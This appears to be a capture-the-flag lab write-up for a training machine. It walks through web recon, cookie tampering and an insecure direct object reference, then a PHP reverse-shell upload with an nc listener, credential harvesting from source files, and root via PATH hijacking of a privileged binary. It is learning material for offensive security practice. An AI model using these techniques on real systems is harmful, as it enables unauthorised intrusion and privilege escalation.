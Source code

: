 Task 1

With what kind of tool can intercept web traffic?
A **Proxy**

To begin our web enemuration we can begin with an nmap scan:
`nmap -sC -sV {IP}`

![[Pasted image 20241106005108.png]]

Results show open ports for SSH and HTTP

We can begin by visiting the HTTP web server using burp suite.

Burp will reveal the web pages request once accessed 
![[Pasted image 20241106011050.png]]
which shows the cdn-cgi/login page

navigating to this page shows you can login as guest. 

Logging in and navigating the pages will reveal a page with admin rights. 
![[Pasted image 20241106011241.png]]
Using Firefox's inspect element, you can see the cookies, show both the guest role, and a user role with a cookie value.
We can use this to manipulate the web page into thinking we are user. 
http://10.129.255.154/cdn-cgi/login/admin.php?content=accounts&id=1
Editing the accounts id to =1 it will show the adim access ID and email. 
![[Pasted image 20241106020707.png]]


![[Pasted image 20241106020554.png]]

editing the cookies to the value  enumerated on the admin account will allow access to the upload page. 
![[Pasted image 20241106020742.png]]

Now that we have access to an upload page, we can consider this a foothold to inject a shell.  
using a simple php reverse shell we can upload it to the server and gain access. 

A reverse shell can be found in the webshells directory, specifically the php-reverse-shell.php
- by editing the contents of the script, we can assign our desired ip and port to activate the reverse shell.
- `gobuster dir --url http://10.129.255.154/ -w /usr/share/dirbuster/directory-list-2.3-small.txt`
- Gobuster reveals the url: 

http:/10.129.255.154/uploads


![[Pasted image 20241106023636.png]]

Since we have uploaded a reverse shell to the uploads server, we can access it by entering it to the url:
http://10.129.255.154/uploads/php-reverse-shell.php

before we access the server, we must set up a listening session on the port we specified:
`nc -lnvp 4444`
Once the URL is accessed when listening, the shell will be shown on the listener. 

![[Pasted image 20241106024102.png]]



Task 6

What is the file that contains the password that is shared with the robert user?

Navigating to the web-servers source code in the cdn-cgi/login directory we can cat and grep any instances of a passwd in the source code.

```
$ cat * | grep -i passw*
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
$ 

```

The source code reveals the password for admin as MEGACORP_4dm1n!!

In the same folder for the web login we can see a couple other files, using cat on the db.php file reveals the login information for Robert. 
![[Pasted image 20241106030825.png]]

```
$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

In order to gain privileges as robert in the reverse shell, we fist must spawn a tty intractable shell to run commands such as su and sudo.

- Spawn a TTY shell using python using:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Then login to Roberts account with:

```
su robert
password: M3g4C0rpUs3r!
```
Inside of Roberts home directory we can find the file user.txt which reveals the user flag.
![[Pasted image 20241106032852.png]]

In order to get the root flag we must explot a path using the root user. 

The Bugtracker app mentioned seems to use root privileges no matter the user. so this can be exploited. 

The bugtracker application seems to be using the cat command to search for files. 

We can manipulate this command by creating our own cat file in the /tmp dir.

We will add he contents /bin/sh to the cat file to create our own shell inside the bugtracker application. 

This is done by setting the path to the /tmp dir using the command 
`export PATH=/tmp:$PATH`
and then running the bug tracker application inside the /tmp directory.

![[Pasted image 20241106034406.png]]

Having access to root we can now navigate to the root folder with
`cd /root`

once in root using ls will reveal the root.txt file

This file can not be enumerated using cat, or nano so we must use other commands to reveal the flag.


Since we know the size isn't over 100 characters for a flag we can use head -100 root.txt and reveal all the contents of root.txt

